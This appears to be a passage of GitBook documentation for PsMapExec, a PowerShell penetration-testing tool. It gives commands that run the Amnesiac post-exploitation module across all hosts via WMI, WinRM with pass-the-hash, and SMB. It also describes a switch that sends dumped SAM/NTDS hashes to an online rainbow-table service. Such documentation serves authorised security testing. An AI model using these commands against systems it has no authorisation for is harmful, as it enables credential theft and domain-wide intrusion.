 The Amnesiac module works across all command execution methods with PsMapExec.&#x20;

<figure><img src="../.gitbook/assets/image (2113).png" alt=""><figcaption></figcaption></figure>

Some usage examples:

<pre class="language-powershell"><code class="lang-powershell"><strong># Execute over WMI as the current User
</strong><strong>PsMapExec -Targets All -Method WMI -Module Amnesiac
</strong><strong>
</strong><strong># Execute over WinRM using a provided username and hash
</strong><strong>PsMapExec -Targets All -Method WinRM -Module Amnesiac -Username User -Hash [RC4/AES256]
</strong><strong>
</strong><strong># Execute over SMB using a provided username and password
</strong><strong>PsMapExec -Targets All -Method SMB -Module Amnesiac -Username User -Password Pass
</strong></code></pre>

Amnesiac:  [https://github.com/Leo4j/Amnesiac](https://github.com/Leo4j/Amnesiac)\
Documentation: [https://leo4j.gitbook.io/amnesiac/](https://leo4j.gitbook.io/amnesiac/)

**Rainbow Tables**

* PsMapExec now supports rainbow table lookup against an online database (https://ntlm.pw) when parsing extracted hashes from certain modules (SAM, NTDS, LogonPasswords).
* Use the switch `-Rainbow` along side one of these supported modules to perform the check
* Only known hashes will be printed to the console, invalid results are surpressed

```powershell
PsMapExec -Targets Servers -Method WMI -Module SAM -Rainbow
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
